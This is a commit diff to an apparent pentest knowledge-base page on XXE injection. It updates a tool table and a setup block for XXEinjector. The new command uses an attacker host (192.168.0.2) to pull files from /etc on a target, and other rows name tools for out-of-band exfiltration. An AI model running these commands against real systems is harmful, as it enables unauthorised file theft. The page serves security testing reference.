

Before and after one commit to HansMolemanPNG/hansmolemanpng.github.io, an MkDocs documentation site: the page built from docs/kb/injection-attacks/xxe.md, in a window 1280 px wide and 900 px high, scrolled down 48277 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update xxe.md

````diff
--- a/docs/kb/injection-attacks/xxe.md
+++ b/docs/kb/injection-attacks/xxe.md
@@ -1751,7 +1751,7 @@
 
 |Tool                       |Purpose                                 |Usage                                              |
 |---------------------------|----------------------------------------|---------------------------------------------------|
-|**XXEinjector**            |Automated XXE payload generation        |`./xxeinjector.py -u http://target.com -f file`    |
+|**XXEinjector**            |Automated XXE payload generation        |`ruby xxeinjector.rb --host=<our IP> --path=/etc --file=<file with requests>`    |
 |**oxml_xxe**               |XXE in Office documents (DOCX, XLSX)    |`ruby server.rb`              |
 |**Burp Suite Collaborator**|OOB XXE detection and exfiltration      |Built-in to Burp Suite Pro                         |
 |**Interactsh**             |Free OOB interaction logging (DNS, HTTP)|`./interactsh-client`                              |
@@ -1763,8 +1763,7 @@
 ```bash
 git clone https://github.com/enjoiz/XXEinjector.git
 cd XXEinjector
-./xxeinjector.py -u http://target.com/api/process -f file.xml
-./xxeinjector.py -u http://target.com -t bing -p http://127.0.0.1:8080/admin
+ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt
 ```
 
 ### [oxml_xxe](https://github.com/BuffaloWill/oxml_xxe)
````
